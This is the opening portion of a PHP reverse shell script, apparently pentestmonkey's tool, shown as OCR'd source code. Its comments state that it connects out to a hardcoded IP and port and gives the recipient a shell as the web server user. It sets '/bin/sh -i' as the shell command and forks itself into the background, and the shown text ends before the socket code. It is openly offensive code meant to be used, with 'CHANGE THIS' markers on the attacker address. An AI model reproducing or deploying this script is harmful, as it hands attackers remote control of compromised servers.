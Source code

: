  ```php
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.17.83.219';  // CHANGE THIS
$port = 4000;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

 ```